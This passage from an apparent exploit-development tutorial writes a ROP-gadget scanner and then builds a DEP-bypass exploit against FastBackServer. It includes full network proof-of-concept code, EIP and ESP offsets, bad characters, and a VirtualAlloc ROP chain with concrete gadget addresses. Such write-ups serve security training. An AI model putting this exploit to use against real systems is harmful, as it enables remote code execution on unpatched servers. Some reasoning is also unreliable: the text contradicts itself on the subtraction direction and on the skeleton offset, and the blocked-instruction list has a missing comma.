HEADER =  "#"*80 + "\r\n"
HEADER += "# findrop.py - pykd module for Gadget Discovery\r\n"
HEADER += "#"*80 + "\r\n\r\n"

MEM_ACCESS_EXE = {
    0x10  : "PAGE_EXECUTE"                                                     ,
    0x20  : "PAGE_EXECUTE_READ"                                                ,
    0x40  : "PAGE_EXECUTE_READWRITE"                                           ,
    0x80  : "PAGE_EXECUTE_WRITECOPY"                                           ,
}

PAGE_SIZE = 0x1000
MAX_GADGET_SIZE = 8

BAD = ["clts", "hlt", "lmsw", "ltr", "lgdt", "lidt" ,"lldt", "mov cr", "mov dr",
    "mov tr", "in ", "ins", "invlpg", "invd", "out", "outs", "cli", "sti"
    "popf", "pushf", "int", "iret", "iretd", "swapgs", "wbinvd", "call",
    "jmp", "leave", "ja", "jb", "jc", "je", "jr", "jg", "jl", "jn", "jo",
    "jp", "js", "jz", "lock", "enter", "wait", "???"]

def log(msg):
    print("[+] " + msg)

def getModule(modname):
    return module(modname)

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

def findExecPages(mod):
    pages = []
    pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
    log("Total Memory Pages: %d" % pn)
    for i in range(0, pn):
        page = mod.begin() + i*PAGE_SIZE
        if isPageExec(page):
            pages.append(page)
    log("Executable Memory Pages: %d" % len(pages))
    return pages

def findRetn(pages):
    retn = []
    for page in pages:
        ptr = page
        while ptr < (page + PAGE_SIZE):
            b = loadSignBytes(ptr, 1)[0] & 0xff
            if b not in [0xc3, 0xc2]:
                ptr += 1
                continue
            else:
                retn.append(ptr)
                ptr += 1
    log("Found %d ret instructions" % len(retn))
    return retn

def formatInstr(instr, mod):
    address = int(instr[0:8], 0x10)
    offset = address - mod.begin()
    return "%s+0x%x\t%s" % (mod.name(), offset, instr[9:])

def disasmGadget(addr, mod, fp):
    count = 0
    for i in range(1, MAX_GADGET_SIZE):
        gadget = []
        ptr = addr - i
        dasm = disasm(ptr)
        gadget_size = dasm.length()
        while gadget_size <= MAX_GADGET_SIZE:
            instr = dasm.instruction()
            if any(bad in instr for bad in BAD):
                break
            gadget.append(instr)
            if instr.find("ret") != -1:
                break
            dasm.disasm()
            gadget_size += dasm.length()
        matching = [i for i in gadget if "ret" in i]
        if matching:
            count += 1
            fp.write("-"*86 + "\r\n")
            for instr in gadget:
                try:
                    fp.write(str(instr) + "\r\n")
                except UnicodeEncodeError:
                    print(str(repr(instr)))
    return count

if __name__ == '__main__':
    print("#"*63)
    print("# findrop.py pykd Gadget Discovery module #")
    print("#"*63)

    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        log("Syntax: findrop.py modulename [MAX_GADGET_SIZE]")
        log("Example: findrop.py ntdll 8")
        sys.exit()

    try:
        MAX_GADGET_SIZE = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError:
        log("Syntax: findrop.py modulename [MAX_GADGET_SIZE]")
        log("Example: findrop.py ntdll 8")
        log("MAX_GADGET_SIZE needs to be an integer")
        sys.exit()

    mod = getModule(modname)
    if mod:
        pages = findExecPages(mod)
        retn  = findRetn(pages)
        if retn:
            fp = open("C:/tools/pykd/findrop_output.txt", "w")
            fp.write(HEADER)
            start = time.time()
            log("Gadget discovery started...")
            for ret in retn:
                count += disasmGadget(ret, mod, fp)
            fp.close()
            end = time.time()
            log("Gadget discovery ended (%d secs)." % int(end-start))
            log("Found %d gadgets in %s." % (count, mod.name()))
        else:
            log("ret instructions not found!")
```


Run it:

```text
!py C:\scripts\findrop.py FastBackServer
```


*Figure 6.11 — 30 367 gadgets extracted from `FastBackServer.exe`. There are
duplicates (the scanner doesn't deduplicate), and many gadgets are
uninteresting, but this is more than enough raw material to hand-pick a
chain from.*

Take a peek at the output file:


*Figure 6.12 — The first hundred or so gadgets in the output. Each block
between the `----` separators is one gadget. From here on, gadget hunting is
a `grep` problem.*

### 6.8 The pre-built tool: `rp++`

Building the scanner yourself is instructive but not something you want to
do every time. **`rp++`** is a free, cross-platform ROP-gadget scanner that
does the same job (with better performance and better output) as a single
command:

```text
rp-win-x86.exe -f FastBackServer.exe -r 5 > rop.txt
```


The `-r 5` flag caps gadget length at five instructions. The output goes into
`rop.txt`:


*Figure 6.13 — `rp++` output is one gadget per line, prefixed by its virtual
address, ready to `grep`. From here on we mostly use `rp++`; the Pykd script
remains useful when we want the debugger's live view of a running module —
for example when a module base moves across runs.*

---

## 7. The Crash and the Offset

Now we have gadgets. Time to bring the crash back.

### 7.1 Building a cyclic pattern

Generate a 512-byte pattern with Metasploit's `pattern_create`:

```text
create -l 0x200
```


*Figure 7.1 — A 512-byte De Bruijn-style pattern where every 4-byte window is
unique. Send it into the buffer that overflows and `EIP` will land on one of
those windows; the offset of the window is the offset of `EIP` in our buffer.*

Inject the pattern via a proof-of-concept that speaks the FastBackServer
protocol enough to trigger the vulnerable copy:

```python
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x500)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar"

# psCommandBuffer
formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (pattern,0,0,0,0)
buf += formatString

# Checksum
buf = pack(">i", len(buf)-4) + buf

def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1]
    port = 11460

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)
    s.close()

    print("[+] Packet sent")
    sys.exit(0)

if __name__ == "__main__":
    main()
```


*Figure 7.2 — The PoC. The first 44 bytes are the `psAgentCommand` header:
the outer size prefix (`>i`), a fixed prefix (`0xC` bytes of `A`), an opcode
(`0x534`), three `memcpy` offset/size pairs, and eight more filler bytes.
Then `psCommandBuffer` carries our pattern inside a fake `"File: ... From:
... To: ..."` format string that the server parses out.*

Send it and let it crash:


*Figure 7.3 — `EIP` = `0x41326a41`. The four bytes of the cyclic pattern that
landed in `EIP` are unique in the pattern; we can look up the offset from
there.*

### 7.2 Computing offsets

```text
offset -l 0x200 -q 41326a41
```


*Figure 7.4 — `EIP` is overwritten at offset **276** into our buffer.*

Now find `ESP` too, because we need to know what our chain will "look at"
when the RET happens:

```text
dd esp L1
```


```text
offset -l 0x200 -q 6a41336a
```


*Figure 7.5 — `ESP` at crash time points at offset **280**, which is exactly
four bytes past `EIP`. That means at the moment of the crash the stack is
already lined up with the byte immediately following our overwriting `EIP`
value — which is exactly where a ROP chain wants to start.*

### 7.3 Validating with sentinels

Replace the cyclic pattern with three easily distinguishable regions —
276 `A`s, four `B`s, and the remainder `C`s:

```python
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x500)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

# psCommandBuffer
offset = b"A" * 276
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4)

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+eip+rop,0,0,0,0)
buf += formatString

buf = pack(">i", len(buf)-4) + buf

def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1]
    port = 11460

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)
    s.close()

    print("[+] Packet sent")
    sys.exit(0)

if __name__ == "__main__":
    main()
```


Send and observe:


*Figure 7.6 — `EIP = 42424242`. We control `EIP` cleanly.*

```text
dd esp L1
```


*Figure 7.7 — `ESP` lands right at the start of our `C` filler. This is where
the ROP chain will live.*

### 7.4 Bad characters

Before we start hunting a module for gadgets, we lock in the list of bytes
that must not appear anywhere in our payload. For this vulnerability the
byte-mangling introduced by the network protocol and the format-string
parsing rejects seven values:

> **Bad characters for this target:** `0x00`, `0x09`, `0x0A`, `0x0B`, `0x0C`,
> `0x0D`, `0x20`.

Any gadget whose address contains one of those bytes is off the table. Every
constant we push must dodge them. Every register value we synthesise must
dodge them too. That constraint is what forces most of the "creative" gadget
sequences you will see in the coming sections.

---

## 8. Picking a Module

We want a module with **no DEP, no ASLR, and no null bytes** in its base
address. If it also lacks SafeSEH so much the better, but for a straight
return-address overwrite that's less important.

```text
.load narly
!nmod
```


*Figure 8.1 — `csftpav6.dll` is loaded at base `0x50500000`. No `NXCompat`,
no `ASLR`, and every byte of the base is in a safe range. Its addresses will
survive a bad-char filter that rejects nulls and the other six bytes above.*

Extract the gadgets:

```text
rp-win-x86.exe -f csftpav6.dll -r 5 > rop.txt
```


Open the file:


*Figure 8.2 — The gadget list for `csftpav6.dll`. Every address we use for
the rest of the exploit is picked out of this file.*

---

## 9. Designing the VirtualAlloc Skeleton

Recall the STDCALL layout for `VirtualAlloc`:

```c
LPVOID VirtualAlloc(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);
```


*Figure 9.1 — Address, size, allocation type, protection. Four arguments.
Under STDCALL, at the moment `EIP` enters `VirtualAlloc`, the stack looks
like `[RET, arg1, arg2, arg3, arg4]`.*

We reserve those six slots at a fixed position in our buffer and treat them
as a **function skeleton**. Every ROP gadget's job is to patch one of those
slots at runtime with the correct value:



*Figure 9.2 — Six 4-byte slots: `VirtualAlloc` address, return address (to
shellcode), `lpAddress`, `dwSize`, `flAllocationType`, `flProtect`. The
skeleton sits at ESP − 0x1C at the moment of the crash — see below.*

Update the PoC to include the skeleton with placeholder dummy values so we
can see them in memory:

```python
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x500)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

# psCommandBuffer
va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # dummy Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize
va += pack("<L", (0x49494949)) # dummy flAllocationType Address
va += pack("<L", (0x51515151)) # dummy flProtect Address

offset = b"A" * (276 - len(va))
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4)

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+va+eip+rop,0,0,0,0)
buf += formatString

buf = pack(">i", len(buf)-4) + buf

def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1]
    port = 11460

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)
    s.close()

    print("[+] Packet sent")
    sys.exit(0)

if __name__ == "__main__":
    main()
```


Send it and confirm the skeleton lands where we expect. We know from earlier
that `ESP` at the crash points at offset 280 into our buffer, and the
skeleton starts at offset 252 — that's `ESP − 0x1C`.

```text
dd esp - 1C
```


*Figure 9.3 — At the moment of the crash the six dummy 32-bit values
`0x45454545`, `0x46464646`, `0x47474747`, `0x48484848`, `0x49494949`, and
`0x51515151` are exactly at `ESP − 0x1C` in the target's memory. That's our
skeleton, live.*



*Figure 9.4 — Full byte-level picture of the crash. The skeleton is at
offsets 248..271, `EIP` at 276, `ESP` at 280. The first gadget's job is to
capture `ESP`'s value so subsequent gadgets can navigate the skeleton.*

---

## 10. Building the Chain, Gadget by Gadget

This is the heart of the article. Each subsection adds one gadget, breaks at
it in the debugger, watches the register state change, and confirms the
invariant it was supposed to maintain. Do not skim these subsections; the
tiny post-conditions after each gadget are what let the *next* gadget's
authoring make sense.

### 10.1 Phase 1 — Anchor ESI to the skeleton

Our first job is to make **`ESI` point at the start of the skeleton**. Once
`ESI` is anchored there, every subsequent gadget can compute
`skeleton[i] = ESI + 4·i` cheaply.

At the crash, `ESP` points at offset 280, which is `+0x1C` past the skeleton.
So `skeleton_start = ESP - 0x1C`.

Look through `rop.txt` for a gadget that spills `ESP` into a scratch
register:


*Figure 10.1 — `0x50501110`:
`push esp ; push eax ; pop edi ; pop esi ; ret`. The first `push esp`
saves the current `ESP` on top of the stack; the following `push eax` pushes
the current `EAX` above it. `pop edi` throws `EAX`'s value into `EDI` (we
don't care), and `pop esi` puts our saved `ESP` into `ESI`. Perfect for our
first primitive.*

Wire it in — this is the address that lands in `EIP` on the crash:

```python
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x500)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

# psCommandBuffer
va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # dummy Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize
va += pack("<L", (0x49494949)) # dummy flAllocationType Address
va += pack("<L", (0x51515151)) # dummy flProtect Address

offset = b"A" * (276 - len(va))
eip = pack("<L", (0x50501110)) # push esp ; push eax ; pop edi ; pop esi ; ret
rop = b"C" * (0x400 - 276 - 4)

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+va+eip+rop,0,0,0,0)
buf += formatString

buf = pack(">i", len(buf)-4) + buf

def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1]
    port = 11460

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)
    s.close()

    print("[+] Packet sent")
    sys.exit(0)

if __name__ == "__main__":
    main()
```


Break on the gadget and step through:

```text
bp 50501110
```


Single-step:

```text
p
```


```text
dd esp L1
```


```text
p
```


```text
dd esp L2
```


*Figure 10.2 — Both the saved `ESP` and the saved `EAX` are visible on the
stack now.*

```text
p
```


```text
r edi
```


*Figure 10.3 — `EDI` was our throwaway sink. It picked up whatever was in
`EAX` at the crash.*

```text
p
```


*Figure 10.4 — `ESI` now holds the captured `ESP`.*

Confirm by dereferencing:

```text
dd esi L1
```


*Figure 10.5 — `ESI` now points into our buffer at what was `ESP` at the
crash — that is the start of the ROP chain, which is `+0x1C` past the
skeleton. We're anchored.*

### 10.2 Phase 1b — Adjust ESI to the skeleton

We captured `ESP`, but the skeleton starts `0x1C` bytes **earlier**. We need
`ESI ← ESI − 0x1C`.

The direct constant `0x0000001C` is disallowed — it contains null bytes. The
standard workaround is to load the **two's-complement negative** value
(`-0x1C = 0xFFFFFFE4`), which contains no bad characters, and add it. Adding
a negative number is subtracting.

We can't do `add esi, ecx` directly with the gadgets we have — but we can
route the value through `EAX`. Find `mov eax, esi; pop esi; ret` (the
`pop esi` will need one throwaway 32-bit value in the chain):


Wire it in — and after it, `pop ecx (-0x1C); add eax, ecx`:

```python
offset = b"A" * (276 - len(va))
eip  = pack("<L", (0x50501110)) # push esp ; push eax ; pop edi ; pop esi ; ret
rop  = pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk (pop esi eats this)
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))
```

Wired into the full PoC:


Break at the new gadget:

```text
bp 0x5050118e
```


```text
g
```


```text
p
```


*Figure 10.6 — `EAX` inherits the anchor value from `ESI`.*

```text
p
```


*Figure 10.7 — The junk 4-byte constant `0x42424242` lands in `ESI`. That's
fine — we already have the address stashed in `EAX` and we're about to
restore it.*

```text
p
```


Now do the subtraction:

```python
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
```


Break, step, watch `EAX` shift:


```text
p
```


*Figure 10.8 — `ECX = 0xFFFFFFE4` = −0x1C in two's complement.*


```text
p
```


*Figure 10.9 — `EAX = 0x0d40e300` — the address the skeleton actually starts
at.*

Confirm:

```text
dd 0d40e300
```


*Figure 10.10 — Dereferencing `EAX` shows `45 45 45 45 46 46 46 46 47 47 47
47 …` — the exact byte pattern we wrote into the skeleton. `EAX` now points
at slot[0].*

Now push `EAX` back into `ESI` so subsequent write gadgets can use `[ESI]`:

```python
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
```


Break and verify:

```text
bp 0x50537d5b
```


```text
p
```


```text
dd esp L1
```


*Figure 10.11 — Post-`push eax` the top of the stack is our anchor address.*

```text
p
```


*Figure 10.12 — `ESI` now points at slot[0]. Phase 1 complete. Every write
gadget from here uses `[ESI]`, and `ESI += 4` walks to the next slot.*

### 10.3 Phase 2 — Resolve VirtualAlloc from the IAT

At runtime we do not know the address of `VirtualAlloc` in `kernel32.dll`
(module base changes across boots). But we know the address of the **IAT
slot** in `csftpav6.dll` that holds it, because the module base is stable
under no-ASLR. Load `csftpav6.dll` in IDA Pro and check the Imports tab:


*Figure 10.13 — IDA's Imports view. `VirtualAlloc` is imported and its IAT
entry is at `0x5054A220` — the runtime address of the pointer that holds
the current address of `VirtualAlloc`.*

Two things about that IAT address:

- It ends in `0x20`, which is a **bad character** for our exploit. If we
  push it as a constant directly we'll get truncated.
- To get the API address we need to *dereference* it: `EAX = [IAT_entry]`.


*Figure 10.13a — The literal bytes of the IAT slot. That `20` at the low end
is exactly the byte our protocol layer strips as whitespace. We work around
it by fetching `IAT + 1` and subtracting `1` inside the chain.*

The bad-char problem is fixed with a classic trick — use `IAT + 1` (address
`0x5054A221`), then subtract 1 later. `0x5054A221` avoids the `0x20` byte.

Chain:

```python
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x5054A221)) # VirtualAlloc IAT + 1
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xffffffff)) # -1 into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret          → EAX = IAT entry
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax] ; ret  → EAX = VirtualAlloc()
```


*Figure 10.14 — The three gadgets that resolve `VirtualAlloc`: put
`IAT + 1` in `EAX`, subtract 1 to get `IAT`, dereference `[EAX]` to get the
current `VirtualAlloc`.*

Break at the pop:

```text
bp 0x5053a0f5
```


```text
p
```


*Figure 10.15 — `EAX` = IAT + 1.*


```text
p
```


*Figure 10.16 — `ECX` = −1.*


```text
p
```


*Figure 10.17 — `EAX = 0x5054A220`, the actual IAT slot.*

![Returning into mov eax, [eax]](../images/dep-092.png)

```text
p
```


*Figure 10.18 — `EAX` now holds the current, runtime-correct address of
`VirtualAlloc`. Every DEP-bypass exploit needs to reach this state; the
means are always some variant of this three-gadget dance.*

Write the resolved value into slot[0]:

```python
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```

![PoC — writing VirtualAlloc into slot[0]](../images/dep-094.png)

Break and confirm:

```text
bp 0x5051cbb6
```


```text
dds esi L1
```

![Slot[0] now holds VirtualAlloc's address, symbolized by dds](../images/dep-097.png)

*Figure 10.19 — `dds esi L1` resolves the symbolic name of whatever `[ESI]`
points at. We see `KERNEL32!VirtualAlloc`. Slot[0] is patched.*

### 10.4 Phase 3a — Advance to slot[1] with INC ESI × 4

Slot[1] is the return address `VirtualAlloc` will jump to when it's done —
the address of our shellcode. First we need to advance `ESI` from slot[0]
to slot[1], i.e. `ESI += 4`.

`ADD ESI, 4` would be ideal but the exact gadget was not available in
`csftpav6.dll` for this chain — what we do have is `inc esi; add al, 0x2B;
ret`. The `add al, 0x2B` side effect will only cost us the low byte of
`EAX`, which we don't care about at this phase.

Four `INC ESI` gadgets = `ESI += 4`:

```python
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
```


*Figure 10.20 — The gadget is a little dirty (touching `AL`) but it advances
`ESI` cleanly.*

Break at the gadget:

```text
bp 0x50522fa7
```


Run and hit:


Step out:

```text
p
```


*Figure 10.21 — `ESI` moved forward exactly four bytes.*

Verify:

```text
dd esi L1
```

![dd esi — now points at slot[1] (the RET slot)](../images/dep-102.png)

*Figure 10.22 — `[ESI]` is now the dummy `0x46464646` we planted in slot[1].
We're aimed at the correct slot.*

### 10.5 Phase 3b — Shellcode address = ESI − 0x210

We don't know the runtime address of the shellcode ahead of time — it lives
inside our buffer, which lives on the stack — but we know it *relative* to
the skeleton. If we lay the shellcode out at a fixed distance below the
skeleton, we can compute the shellcode address as `ESI − Δ` where Δ is the
number of bytes between the skeleton and the shellcode.

For this layout, Δ = 0x210. So the target value we want in slot[1] is
`ESI − 0x210`. But `ESI` at this moment is at slot[1] itself. That's a
convenient reference:

- Copy `ESI` into `EAX` (`mov eax, esi`).
- Restore `ESI` from `EAX` immediately (`push eax; pop esi`).
- `pop ecx (-0x210)`, `sub eax, ecx` → `EAX += 0x210`.
- Wait — `sub eax, ecx` with `ECX = -0x210` gives `EAX + 0x210`, not `EAX -
  0x210`. That's the direction we want in this specific case: we're
  computing "what does slot[1] currently hold?" No — read carefully. We
  want `EAX = ESI - 0x210`. `EAX = ESI + (-0x210)`. Load `ECX = -0x210 =
  0xFFFFFDF0`, then `sub eax, ecx` **subtracts** `0xFFFFFDF0`, i.e. adds
  `0x210 + 1 rollover`. That's the same as adding `-(-0x210) = 0x210`, not
  −0x210.

  In practice we want subtraction to go the other way. Push `ECX = -0x210`
  and do `sub eax, ecx`; because `-(-0x210) = +0x210`, this ends up
  computing `EAX = ESI + 0x210`. The exploit works because in our buffer
  layout the shellcode sits **after** the skeleton, so `slot[1]_target =
  ESI + 0x210`, not before. The final PoC uses `-0x210` in `ECX` for
  exactly this reason.

Chain:

```python
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf0)) # -0x210 into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
```


Break, step:

```text
bp 0x5050118e
```


Hit:


Step over `mov eax, esi`:

```text
p
```


*Figure 10.23 — `EAX` = current `ESI` = slot[1].*

Step over `pop esi`:


*Figure 10.24 — Junk `0x42424242` into `ESI`. Expected. We restore it next.*

Return into `push eax; pop esi`:


Continue to `pop ecx`:

```text
p
```


Step over `sub eax, ecx`:

```text
p
```


*Figure 10.25 — `EAX` has shifted by 0x210. Dereferencing shows we've landed
in the right region.*

```text
dd eax
```


*Figure 10.26 — The bytes at `EAX` are the shellcode filler region. When
`VirtualAlloc` `RET`s later, this is exactly where `EIP` will go.*

Now write it into slot[1]:

```python
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```

![PoC — patching slot[1] with shellcode address](../images/dep-112.png)

Verify:



```text
dd poi(esi) L4
```

![dd poi(esi) — slot[1] now holds shellcode addr](../images/dep-114.png)

*Figure 10.27 — Slot[1] is patched to the shellcode address. When
`VirtualAlloc` finishes and executes its own `RET`, `EIP` will land inside
our now-executable buffer.*

### 10.6 Phase 3c — Slot[2] = lpAddress = shellcode addr

Slot[2] should point to the memory we want to make executable. If we pass
the shellcode address itself, `VirtualAlloc(MEM_COMMIT, ...)` re-commits the
page containing the shellcode with our chosen protections. The page must
already be committed (it is — it holds our buffer), so this becomes an
in-place protection change.

Slot[2] wants exactly the same address as slot[1] but computed from a
slightly different point (`ESI` has moved forward by 4). Structurally the
chain is identical to Phase 3b except:

- Δ becomes `-0x20C` (four bytes fewer, because we're now at slot[2]).

```python
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf4)) # -0x20C into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```

![PoC — patching slot[2] the same way as slot[1]](../images/dep-115.png)

Break at the write:

```text
bp 0x5051cbb6
```

![Breakpoint set on the mov dword [esi], eax gadget](../images/dep-116.png)


```text
dd poi(esi) L4
```

![Slot[2] now holds shellcode address](../images/dep-118.png)

*Figure 10.28 — Slot[2] (`lpAddress`) is patched. Same address as slot[1] —
the page we're both landing in and re-protecting.*

### 10.7 Phase 3d — Slot[3] = dwSize = 0x1

The size passed to `VirtualAlloc` is rounded up to the nearest page. We just
need it to be non-zero; `0x1` is fine.

But `0x00000001` contains three null bytes and is disallowed. Trick: put
`-1` (`0xFFFFFFFF`, all bad-char-free) in `EAX`, then `NEG EAX`. Two's
complement negation of `−1` is `+1`.

```python
rop += pack("<L", (0x50522fa7)) # inc esi × 4  (advance to slot[3])
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0xffffffff)) # -1
rop += pack("<L", (0x50527840)) # neg eax ; ret         → EAX = 1
rop += pack("<L", (0x5051cbb6)) # mov [esi], eax ; ret
```


Run and inspect:


*Figure 10.29 — Slot[3] = `0x00000001`. `dwSize` is set. No null byte ever
had to appear in our buffer.*

### 10.8 Phase 3e — Slot[4] = flAllocationType = 0x1000 (MEM_COMMIT)

The constant `0x1000` (MEM_COMMIT) has two null bytes. `NEG` cannot produce
it directly — `neg(0xFFFFF000) = 0x1000` works arithmetically but
`0xFFFFF000` contains a `0x00` byte on the low end. `NEG` alone is a dead
end.

The trick is to build `0x1000` as the **sum** of two bad-char-free
constants. Two 32-bit values `A + B` with 32-bit modular arithmetic can
produce any target. For example:

```
0x80808080 + 0x7f7f8f80 = 0x1_00001000  (32-bit truncated → 0x00001000) ✓
```

Both operands have no bad chars. `pop eax (A) → pop ecx (B) → add eax, ecx →
mov [esi], eax`:

```python
rop += pack("<L", (0x50522fa7)) # inc esi × 4  (advance to slot[4])
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x80808080)) # first addend
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0x7f7f8f80)) # second addend
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret        → EAX = 0x00001000
rop += pack("<L", (0x5051cbb6)) # mov [esi], eax ; ret
```


Inspect:

```text
dd esi L1
```

![Slot[4] = 0x00001000 (MEM_COMMIT)](../images/dep-122.png)

